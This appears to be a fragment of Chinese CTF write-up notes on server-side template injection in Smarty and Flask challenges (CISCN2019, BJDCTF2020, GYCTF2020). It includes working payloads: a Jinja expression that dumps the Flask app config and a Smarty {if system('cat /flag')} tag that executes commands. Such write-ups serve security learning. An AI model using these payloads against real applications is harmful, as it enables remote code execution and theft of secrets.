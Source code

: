 `/shrine/{{url_for.__globals__['current_app'].config}}`



### [CISCN2019 华东南赛区]Web11 smarty

`X-Forwarded-For: a{*comment*}b`，返回ab，是smarty框架。

`{$smarty.version}`可以看版本，3.1.30

**利用方式：**

#### {php} 标签

`{php}{/php}`这样包含php指令，但是3.1.30已经移除这个标签

#### {literal} 标签

 {literal}可以让块中间的内容忽略Smarty的解析。我们可以使用

```
{literal}<script language="php">phpinfo();</script>{/literal}
```

但是php7已经不支持`<script language="php">`这种写法了。

#### {if} 标签

每个{if}必须有一个配对的{/if}. 也可以使用{else} 和 {elseif}. 全部的PHP条件表达式和函数都可以在if内使用。
也就是说我们把php代码写在`{if PHP代码}{/if}` 就可以了，PHP代码可以被执行。

```
{if system('cat /flag')}{/if}
```

后面不需要分号

### [BJDCTF2020]The mystery of ip

和上题一样，都是smarty框架，payload也一样。



### [GYCTF2020]FlaskApp

>   flask开debug相当于开了后门：https://zhuanlan.zhihu.com/p/32138231

decode：

![image-20220110204103493](README/image-20220110204103493.png)
